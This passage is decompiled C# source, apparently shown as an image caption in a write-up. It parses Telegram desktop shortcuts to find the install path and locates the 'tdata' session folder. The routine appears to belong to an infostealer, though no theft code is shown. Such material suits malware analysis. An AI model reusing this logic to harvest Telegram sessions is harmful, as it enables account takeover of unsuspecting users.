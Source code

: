 ```csharp
			catch
			{
				foreach (string text3 in Directory.GetDirectories(Variables.desktop))
				{
					foreach (string text4 in Directory.GetFiles(text3))
					{
						string fileName = Path.GetFileName(text4);
						bool flag2 = fileName == "Telegram.lnk";
						if (flag2)
						{
							string text5 = text3 + "\\Telegram.lnk";
							FileInfo fileInfo2 = new FileInfo(text5);
							try
							{
								using (FileStream fileStream2 = File.Open(fileInfo2.FullName, FileMode.Open, FileAccess.Read))
								{
									using (BinaryReader binaryReader2 = new BinaryReader(fileStream2))
									{
										fileStream2.Seek(20L, SeekOrigin.Begin);
										uint num5 = binaryReader2.ReadUInt32();
										bool flag3 = (num5 & 1U) == 1U;
										if (flag3)
										{
											fileStream2.Seek(76L, SeekOrigin.Begin);
											ushort num6 = binaryReader2.ReadUInt16();
											fileStream2.Seek((long)((ulong)num6), SeekOrigin.Current);
										}
										long position2 = fileStream2.Position;
										uint num7 = binaryReader2.ReadUInt32();
										fileStream2.Seek(12L, SeekOrigin.Current);
										uint num8 = binaryReader2.ReadUInt32();
										fileStream2.Seek(position2 + (long)((ulong)num8), SeekOrigin.Begin);
										return new string(binaryReader2.ReadChars((int)(position2 + (long)((ulong)num7) - fileStream2.Position)));
									}
								}
							}
							catch
							{
								return "Not Found!";
							}
						}
					}
				}
				text2 = "Not Found!";
			}
			return text2;
		}

		// Token: 0x06000010 RID: 16 RVA: 0x00002DC4 File Offset: 0x00000FC4
		private static string SearchPathTelegram()
		{
			bool flag = Directory.Exists(Variables.roamingappdata + "\\Telegram Desktop\\tdata");
			string text;
			if (flag)
			{
				text = Variables.roamingappdata + "\\Telegram Desktop\\tdata";
			}
			else
```